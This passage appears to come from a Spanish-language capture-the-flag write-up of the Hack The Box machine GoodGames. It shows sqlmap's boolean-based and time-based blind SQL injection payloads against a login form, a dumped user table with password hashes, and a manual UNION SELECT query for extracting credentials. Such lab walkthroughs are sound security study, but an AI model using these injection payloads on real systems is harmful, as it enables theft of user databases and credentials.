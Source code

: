 ```bash
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)                                                                                                             
    Payload: email=' AND 2736=(SELECT (CASE WHEN (2736=2736) THEN 2736 ELSE (SELECT 5938 UNION SELECT 5385) END))-- -&password=test1                                                         

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 5441 FROM (SELECT(SLEEP(5)))wPou)-- pKdl&password=test1
Table: user
[3 entries]
+----+---------+---------------------+----------------------------------+
| id | name    | email               | password                         |
+----+---------+---------------------+----------------------------------+
| 1  | admin   | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | test123 | test@example.com    | 912b7bc95fb9e6885a4685746433f39a |
| 3  | test    | test@goodgames.htb  | 0                                |
+----+---------+---------------------+----------------------------------+
```

### Cracking admin password

Si intentamos romper el hash del administrador, podemos conseguir la contraseña en claro.

![](/assets/images/GoodGames/img4.png)

Si quisieramos extraer los datos de forma manual, podríamos usar la siguiente query.

```SQL
'union+select+1,2,3,group_concat(name,':',password)+from+user--+-
```

![](/assets/images/GoodGames/img5.png)
